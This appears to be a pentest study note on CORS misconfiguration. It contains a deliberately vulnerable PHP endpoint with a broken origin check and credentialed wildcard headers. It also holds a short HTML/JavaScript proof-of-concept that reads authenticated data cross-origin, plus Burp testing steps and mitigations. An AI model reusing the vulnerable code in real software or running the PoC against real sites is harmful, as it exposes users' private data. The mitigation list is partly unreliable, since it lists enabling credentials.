 # CORS Attack

ow HTTP Headers

Access-Control-Allow: \* or \<origin> or null

Access-Control-Credentials:

if Access Access-Control-Credentials: true

**is Vulnerable CORS**

```php
<?php
session_start();

if($_SESSION['islogin'] != 1){
	header("Location: login.php");
	die();
}
#vulnerablity here
$origin = "mydomain.com";
if ( strpos(@$_SERVER['HTTP_ORIGIN'], "mydomain.com") ){
	$origin = @$_SERVER['HTTP_ORIGIN'];
}

header("Content-Type: application/json");
header("Access-Control-Allow-Origin: *");
header("Access-Control-Allow-Credentials: true");

echo '{"name":"Guest user", "phone number":"0234235","email":"email@gmail.com","adddress":"street 3","own books":["Book one","Book two","Book three"],"private books":["book 4","book 5"]}';
```

POS (if data json use Content-Type = application/json)

```jsx
<!DOCTYPE html>
<html>
<head>
    <script>
        function cors() {
            var xhttp = new XMLHttpRequest();
            url = "<url>";
            xhttp.onreadystatechange = function() {
                if (this.readyState == 4 && this.status == 200) {
                    // Display the response in an alert
                    alert(this.responseText);
                    // Or display the response in the demo div
                    document.getElementById("demo").innerHTML = this.responseText;
                }
            };
            xhttp.open("GET", url, true);
            xhttp.withCredentials = true;
            xhttp.send();
        }
    </script>
</head>
<body>
    <center>
        <h2>CORS PoC Exploit</h2>
        <div id="demo">
            <button type="button" onclick="cors()">Exploit</button>
        </div>
    </center>
</body>
</html>

```

I will try to find this vuln Uing Burpsuit Come with me!

<figure><img src="../../.gitbook/assets/image (83).png" alt=""><figcaption></figcaption></figure>

in this request allow credentials if

#### Testing For CORS Vulnerabilities

1. remove/add a domain or like attckerlocalhost

* Map the application • Test the application for dynamic generation • Does it reflect the user-supplied ACAO header? • Does it only validate on the start/end of a specific string? • Does it allow the null origin? \* or yourdoamin,com • Does it restrict the protocol? HTTP or https | 80,8080 or any think • Does it allow credentials?

<figure><img src="../../.gitbook/assets/image (84).png" alt=""><figcaption></figcaption></figure>

Click exploit B000000000M!

<figure><img src="../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

Mitigation

**1. restrict Allowed Origins**

**Access-control-Allow-Origin:** [**https://example.com**](https://example.com)

**2. Limit HTTP Methods**

**Access-control-Allow-Methods: GET, POST**

**3. Control Allowed Header**

**Access-Control-Allow-Headers: Content-Type, Authorization**

1. **Access-Control-Allow-Credentials: true**
2. **Validate Input and Origin**
3. **Content security Policy (CSP)**

**Content-Security-Policy: default-src 'self'; script-src 'self'** [**https://example.com**](https://example.com)

[http://localhost/labs/cors/info.php](http://localhost/labs/cors/info.php)
